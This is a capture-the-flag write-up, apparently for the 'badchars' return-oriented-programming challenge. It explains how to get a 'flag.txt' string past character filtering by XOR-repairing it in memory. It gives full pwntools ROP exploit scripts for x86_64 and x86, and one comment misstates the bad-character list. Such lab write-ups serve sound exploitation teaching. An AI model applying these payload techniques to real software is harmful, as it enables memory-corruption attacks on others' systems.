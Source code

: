 This is a Quick Writeup on **Badchars** challenge

## For x86_64 

Reversing pwnme function in libc,

![pwnme](./img/badchars/pwnme64.png)

we can clearly see that its replacing these chars ['x','a','.','g'] with *0xeb* in our payload .
if it changed our address in payload it will little hard but we will tackle it after creating first payload . now first we have to think how are we are going to make safe "flag.txt" transfer to print_file.
that function will definitely going to change our payload but we are not going to stop by that , we will some ROP gadget which will help to repair again the "flag.txt" .
Lets the hunt begin.
by viewing ROPgadgets with this command:

```shell
ROPgadget --binary ./badchars | grep "ret" |less
```

I found this gadgets:

```shell
0x00000000004004ee : ret (for movaps issue)
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x0000000000400630 : sub byte ptr [r15], r14b ; ret
0x000000000040062c : add byte ptr [r15], r14b ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a3 : pop rdi ; ret
```
that xor ,sub,add,mov gadgets are already provided in useful gadget function for this challenge. or we can also simply see that we have there pop gadgets and value write or change gadgets so they are definitly going to useful in this task.
we need **ret** for just movaps issue.
we can use xor or add or sub to change the destroyed "flag.txt" which is now **"fl\xeb\xeb\xebt\xebt"** , r14 byte will change r15 particular byte depends on what location we give.
I am going to use Xor for this.

```python
>>>print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'
```
We need a location to store our flag.txt .quick vmmap view:

![vmmap](./img/badchars/vmmap64.png)

I have chosen writing to place 0x601070.
now we have all things ready lets build the rop chain.
ropchain = 'a'*40 (usual from prev chals)
ropchain +=  ret (I am not going explain this)
ropchain +=  popr12,r13,r14,r15 (this will set reg's for our upcoming 2 gadgets mov & xor)
ropchain += 'flag.txt',0x601070(our qute location),\x8a,0x601070+2(location of "a" in flag.txt)
after that we similarly xor other bytes also , then push our location to rdi as print file needs it before calling fopen (see fucking function)
then vala call the printfile.

Here's the Exploit:
```python
# 0x00000000004004ee : ret (for movaps issue)
# 0x0000000000400628 : xor byte ptr [r15], r14b ; ret
# 0x0000000000400630 : sub byte ptr [r15], r14b ; ret
# 0x000000000040062c : add byte ptr [r15], r14b ; ret
# 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
# 0x00000000004006a0 : pop r14 ; pop r15 ; ret
# 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004006a3 : pop rdi ; ret
# bad chars x a . t

writto =0x601070
ret = p64(0x4004ee)
xory = p64(0x400628)
suby = p64(0x400630)
addy = p64(0x40062c)
mov = p64(0x400634)
r14r15 = p64(0x4006a0)
r12345 = p64(0x40069c)
rdi = p64(0x4006a3)
printf = p64(0x000400510)

badc = ['x','a','.','g']
for i in badc:
    print(f"{hex(ord(i))=}")
    
# >>> print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
# b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'

payload = flat(
    b"n"*40,
    ret,
    r12345,
    b'flag.txt',
    p64(writto),
    p64(0x8a),
    p64(writto+2),
    mov,
    xory,
    r14r15,
    p64(0x8c),
    p64(writto+3),
    xory,
    r14r15,
    p64(0xc5),
    p64(writto+4),
    xory,
    r14r15,
    p64(0x93),
    p64(writto+6),
    xory,
    rdi,
    p64(writto),
    printf,
)
io.sendline(payload)
```

## For x86 32 bit

Similar approach like 64 bit , but just payload is become bigger because regs only store 4 bytes and "flag.txt" is 8 bytes so we have to repeat it 2 times.

Vmmap:
![vmmap](./img/badchars/vmmap32.png)


Exploit goes here:
```python
# 0x08048547 : xor byte ptr [ebp], bl ; ret
# 0x0804854f : mov dword ptr [edi], esi ; ret
# 0x080485b8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
# 0x080485bb : pop ebp ; ret
# 0x0804839d : pop ebx ; ret
# bad chars a x . g
printf = p32(0x080483D0)
xory = p32(0x08048547)
mov = p32(0x0804854f)
popbig = p32(0x080485b8)
popbx = p32(0x0804839d)
popbp = p32(0x080485bb)
writto = 0x804a070

# >>>print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
# b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'

payload = flat(
    b'b'*44,
    popbig,
    p32(0x8a),
    b"flag",
    p32(writto),
    p32(writto+2),
    mov,
    xory,
    popbig,
    p32(0x8c),
    b'.txt',
    p32(writto+4),
    p32(writto+3),
    mov,
    xory,
    popbp,
    p32(writto+4),
    popbx,
    p32(0xc5),
    xory,
    popbp,
    p32(writto+6),
    popbx,
    p32(0x93),
    xory,
    printf,
    b"xxxx",
    p32(writto)
)
```
Valar Murgolis!!